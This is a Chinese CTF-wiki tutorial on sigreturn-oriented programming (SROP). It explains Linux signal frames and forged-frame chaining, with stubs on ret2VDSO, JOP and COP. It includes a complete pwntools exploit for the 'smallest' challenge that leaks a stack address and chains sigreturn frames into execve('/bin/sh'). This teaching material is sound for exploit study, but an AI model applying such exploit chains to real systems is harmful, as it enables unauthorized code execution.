    core         main    roptool.py   roputils.pyc    stage2.py  stage4.py  stage6.py
    __init__.py  main.c  roputils.py  stage1.py    stage3.py  stage5.py

题目
----

SROP
====

基本介绍
--------

SROP(Sigreturn Oriented Programming)于2014年被Vrije Universiteit
Amsterdam的Erik
Bosman提出，其相关研究\ **``Framing Signals — A Return to Portable Shellcode``**\ 发表在安全顶级会议\ `Oakland
2014 <http://www.ieee-security.org/TC/SP2014>`__\ 上，被评选为当年的\ `Best
Student
Papers <http://www.ieee-security.org/TC/SP2014/awards.html>`__\ 。其中相关的paper以及slides的链接如下：

`paper <http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf>`__

`slides <https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf>`__

其中，\ ``sigreturn``\ 是一个系统调用，在类unix系统发生signal的时候会被间接地调用。

signal机制
----------

signal机制是类unix系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用kill来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：

.. figure:: /pwn/stackoverflow/figure/ProcessOfSignalHandlering.png
   :alt: Process of Signal Handlering

   Process of Signal Handlering

1. 内核向某个进程发送signal机制，该进程会被暂时挂起，进入内核态。

2. 内核会为该进程保存相应的上下文，\ **主要是将所有寄存器压入栈中，以及压入signal信息，以及指向sigreturn的系统调用地址**\ 。此时栈的结构如下图所示，我们称ucontext以及siginfo这一段为Signal
   Frame。\ **需要注意的是，这一部分是在用户进程的地址空间的。**\ 之后会跳转到注册过的signal
   handler中处理相应的signal。因此，当signal
   handler执行完之后，就会执行sigreturn代码。

.. figure:: /pwn/stackoverflow/figure/signal2-stack.png
   :alt: signal2-stack

   signal2-stack

对于signal
Frame来说，不同会因为架构的不同而因此有所区别，这里给出分别给出x86以及x64的sigcontext

-  x86

``C    struct sigcontext    {      unsigned short gs, __gsh;      unsigned short fs, __fsh;      unsigned short es, __esh;      unsigned short ds, __dsh;      unsigned long edi;      unsigned long esi;      unsigned long ebp;      unsigned long esp;      unsigned long ebx;      unsigned long edx;      unsigned long ecx;      unsigned long eax;      unsigned long trapno;      unsigned long err;      unsigned long eip;      unsigned short cs, __csh;      unsigned long eflags;      unsigned long esp_at_signal;      unsigned short ss, __ssh;      struct _fpstate * fpstate;      unsigned long oldmask;      unsigned long cr2;    };``

-  x64

\`\`\`C struct \_fpstate { /\* FPU environment matching the 64-bit
FXSAVE layout. \*/ \_\_uint16\_t cwd; \_\_uint16\_t swd; \_\_uint16\_t
ftw; \_\_uint16\_t fop; \_\_uint64\_t rip; \_\_uint64\_t rdp;
\_\_uint32\_t mxcsr; \_\_uint32\_t mxcr\_mask; struct \_fpxreg \_st[8];
struct \_xmmreg \_xmm[16]; \_\_uint32\_t padding[24]; };

struct sigcontext { \_\_uint64\_t r8; \_\_uint64\_t r9; \_\_uint64\_t
r10; \_\_uint64\_t r11; \_\_uint64\_t r12; \_\_uint64\_t r13;
\_\_uint64\_t r14; \_\_uint64\_t r15; \_\_uint64\_t rdi; \_\_uint64\_t
rsi; \_\_uint64\_t rbp; \_\_uint64\_t rbx; \_\_uint64\_t rdx;
\_\_uint64\_t rax; \_\_uint64\_t rcx; \_\_uint64\_t rsp; \_\_uint64\_t
rip; \_\_uint64\_t eflags; unsigned short cs; unsigned short gs;
unsigned short fs; unsigned short \_\_pad0; \_\_uint64\_t err;
\_\_uint64\_t trapno; \_\_uint64\_t oldmask; \_\_uint64\_t cr2;
**extension** union { struct \_fpstate \* fpstate; \_\_uint64\_t
\_\_fpstate\_word; }; \_\_uint64\_t \_\_reserved1 [8]; }; \`\`\`

​

1. signal
   handler返回后，内核为执行sigreturn系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新pop回对应的寄存器，最后恢复进程的执行。其中，32位的sigreturn的调用号为77，64位的系统调用号为15。

攻击原理
--------

仔细回顾一下内核在signal信号处理的过程中的工作，我们可以发现，内核主要做的工作就是为进程保存上下文，并且恢复上下文。这个主要的变动都在Signal
Frame中。但是需要注意的是：

-  Signal Frame被保存在用户的地址空间中，所以用户是可以读写的。
-  由于内核与信号处理程序无关(kernel agnostic about signal
   handlers)，它并不会去记录这个signal对应的Signal
   Frame，所以当执行sigreturn系统调用时，此时的Signal
   Frame并不一定是之前内核为用户进程保存的Signal Frame。

说到这里，其实，SROP的基本利用原理也就出现了。下面举两个简单的例子。

获取shell
~~~~~~~~~

首先，我们假设攻击者可以控制用户进程的栈，那么它就可以伪造一个Signal
Frame，如下图所示，这里以64位为例子，给出Signal Frame更加详细的信息

.. figure:: /pwn/stackoverflow/figure/srop-example-1.png
   :alt: signal2-stack

   signal2-stack

当系统执行完sigreturn系统调用之后，会执行一系列的pop指令以便于恢复相应寄存器的值，当执行到rip时，就会将程序执行流指向syscall地址，根据相应寄存器的值，此时，便会得到一个shell。

system call chains
~~~~~~~~~~~~~~~~~~

需要指出的是，上面的例子中，我们只是单独的获得一个shell。有时候，我们可能会希望执行一系列的函数。我们只需要做两处修改即可

-  **控制栈指针。**
-  **把原来rip指向的\ ``syscall`` gadget换成\ ``syscall; ret``
   gadget。**

如下图所示 ，这样当每次syscall返回的时候，栈指针都会指向下一个Signal
Frame。因此就可以执行一系列的sigreturn函数调用。

.. figure:: /pwn/stackoverflow/figure/srop-example-2.png
   :alt: signal2-stack

   signal2-stack

后续
~~~~

需要注意的是，我们在构造ROP攻击的时候，需要满足下面的条件

-  **可以通过栈溢出来控制栈的内容**
-  **需要知道相应的地址**
-  **"/bin/sh"**
-  **Signal Frame**
-  **syscal**
-  **sigreturn**
-  需要有够大的空间来塞下整个sigal frame

此外，关于sigreturn以及syscall;ret这两个gadget在上面并没有提及。提出该攻击的论文作者发现了这些gadgets出现的某些地址：

.. figure:: /pwn/stackoverflow/figure/srop-gadget-1.png
   :alt: gadget1

   gadget1

并且，作者发现，有些系统上SROP的地址被随机化了，而有些则没有。比如说\ ``Linux < 3.3 x86_64``\ （在Debian
7.0， Ubuntu Long Term Support， CentOS
6系统中默认内核），可以直接在vsyscall中的固定地址处找到syscall&return代码片段。如下

.. figure:: /pwn/stackoverflow/figure/srop-gadget-2.png
   :alt: gadget1

   gadget1

但是目前它已经被\ ``vsyscall-emulate``\ 和\ ``vdso``\ 机制代替了。此外，目前大多数系统都会开启ASLR保护，所以相对来说这些gadgets都并不容易找到。

值得一说的是，对于sigreturn系统调用来说，在64位系统中，sigreturn系统调用对应的系统调用号为15，只需要RAX=15，并且执行syscall即可实现调用syscall调用。而RAX寄存器的值又可以通过控制某个函数的返回值来间接控制，比如说read函数的返回值为读取的字节数。

利用工具
--------

**值得一提的是，在目前的pwntools中已经集成了对于srop的攻击。**

示例
----

这里以360春秋杯中的smallest-pwn为例进行简单介绍。基本步骤如下

**确定文件基本信息**

.. code:: text

    ➜  smallest file smallest     
    smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped

可以看到该程序为64位静态链接版本。

**检查保护**

.. code:: text

    ➜  smallest checksec smallest     
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

程序主要开启了NX保护。

**漏洞发现**

实用IDA直接反编译看了一下，发现程序就几行汇编代码，如下

.. code:: asm

    public start
    start proc near
    xor     rax, rax
    mov     edx, 400h
    mov     rsi, rsp
    mov     rdi, rax
    syscall
    retn
    start endp

根据syscall的编号为0，可以知道改程序执行的指令为read(0,$rsp,400)，即向栈顶读入400个字符。毫无疑问，这个是有栈溢出的。

**利用思路**

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。重要思路如下

-  通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
-  通过syscall执行execve("/bin/sh",0,0)来获取shell。

**漏洞利用程序**

.. code:: python

    from pwn import *
    from LibcSearcher import *
    small = ELF('./smallest')
    if args['REMOTE']:
        sh = remote('127.0.0.1', 7777)
    else:
        sh = process('./smallest')
    context.arch = 'amd64'
    context.log_level = 'debug'
    syscall_ret = 0x00000000004000BE
    start_addr = 0x00000000004000B0
    # set start addr three times
    payload = p64(start_addr) * 3
    sh.send(payload)

    # modify the return addr to start_addr+3
    # so that skip the xor rax,rax; then the rax=1
    # get stack addr
    sh.send('\xb3')
    stack_addr = u64(sh.recv()[8:16])
    log.success('leak stack addr :' + hex(stack_addr))

    # make the rsp point to stack_addr
    # the frame is read(0,stack_addr,0x400)
    sigframe = SigreturnFrame()
    sigframe.rax = constants.SYS_read
    sigframe.rdi = 0
    sigframe.rsi = stack_addr
    sigframe.rdx = 0x400
    sigframe.rsp = stack_addr
    sigframe.rip = syscall_ret
    payload = p64(start_addr) + 'a' * 8 + str(sigframe)
    sh.send(payload)

    # set rax=15 and call sigreturn
    sigreturn = p64(syscall_ret) + 'b' * 7
    sh.send(sigreturn)

    # call execv("/bin/sh",0,0)
    sigframe = SigreturnFrame()
    sigframe.rax = constants.SYS_execve
    sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
    sigframe.rsi = 0x0
    sigframe.rdx = 0x0
    sigframe.rsp = stack_addr
    sigframe.rip = syscall_ret

    frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
    print len(frame_payload)
    payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
    sh.send(payload)
    sh.send(sigreturn)
    sh.interactive()

其基本流程为

-  读取三个程序起始地址
-  程序返回时，利用第一个程序起始地址读取地址，修改返回地址(即第二个程序起始地址)为源程序的第二条指令，并且会设置rax=1
-  那么此时将会执行write(1,$esp,0x400)，泄露栈地址。
-  利用第三个程序起始地址进而读入payload
-  再次读取构造sigreturn调用，进而将向栈地址所在位置读入数据，构造execve('/bin/sh',0,0)
-  再次读取构造sigreturn调用，从而获取shell。

题目
----

-  `Defcon 2015 Qualifier:
   fuckup <https://brant-ruan.github.io/resources/Binary/learnPwn/fuckup_56f604b0ea918206dcb332339a819344>`__

参考阅读

-  `Sigreturn Oriented Programming (SROP)
   Attack攻击原理 <http://www.freebuf.com/articles/network/87447.html>`__
-  `SROP by Angle
   Baby <https://www.slideshare.net/AngelBoy1/sigreturn-ori>`__
-  `系统调用 <http://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html>`__

ret2VDSO
========

VDSO介绍
--------

什么是VDSO(Virtual Dynamically-linked Shared
Object)呢？听其名字，大概是虚拟动态链接共享对象，所以说它应该是虚拟的，与虚拟内存一直，在计算机中本身并不存在。具体来说，它是将内核态的调用映射到用户地址空间的库。那么它为什么会存在呢？这是因为有些系统调用经常被用户使用，这就会出现大量的用户态与内核态切换的开销。通过vdso，我们可以大量减少这样的开销，同时也可以使得我们的路径更好。这里路径更好指的是，我们不需要使用传统的int
0x80来进行系统调用，不同的处理器实现了不同的快速系统调用指令

-  intel实现了sysenter，sysexit
-  amd实现了syscall，sysret

当不同的处理器架构实现了不同的指令时，自然就会出现兼容性问题，所以linux实现了vsyscall接口，在底层会根据具体的结构来进行具体操作。而vsyscall就实现在vdso中。

这里，我们顺便来看一下vdso，在Linux(kernel 2.6 or upper)中执行ldd
/bin/sh,
会发现有个名字叫linux-vdso.so.1(老点的版本是linux-gate.so.1)的动态文件,
而系统中却找不到它, 它就是VDSO。 例如:

.. code:: shell

    ➜  ~ ldd /bin/sh           
        linux-vdso.so.1 =>  (0x00007ffd8ebf2000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f84ff2f9000)
        /lib64/ld-linux-x86-64.so.2 (0x0000560cae6eb000)

除了快速系统调用，glibc也提供了VDSO的支持, open(), read(), write(),
gettimeofday()都可以直接使用VDSO中的实现。使得这些调用速度更快。
内核新特性在不影响glibc的情况下也可以更快的部署。

这里我们以intel的处理器为例，进行简单说明。

其中sysenter的参数传递方式与int 0x80一致，但是我们可能需要自己布置好
function prolog（32位为例）

.. code:: assembly

    push ebp
    mov ebp,esp

此外，如果我们没有提供functtion
prolog的话，我们还需要一个可以进行栈迁移的gadgets，以便于可以改变栈的位置。

原理
----

待补充。

题目
----

-  **Defcon 2015 Qualifier fuckup**

参考

-  http://man7.org/linux/man-pages/man7/vdso.7.html
-  http://adam8157.info/blog/2011/10/linux-vdso/

JOP
===

Jump-oriented programming

COP
===

Call-oriented programming
